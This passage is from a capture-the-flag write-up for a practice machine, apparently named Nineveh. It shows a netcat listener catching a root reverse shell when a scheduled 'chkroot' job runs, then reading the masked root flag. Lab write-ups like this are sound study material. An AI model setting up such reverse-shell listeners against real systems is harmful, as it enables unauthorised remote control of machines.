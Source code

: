 The next time `chkroot` runs, I get a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:44006.
bash: cannot set terminal process group (11510): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~#

```

And I can grab the flag:

```

root@nineveh:~# cat root.txt
8a2b4956************************

```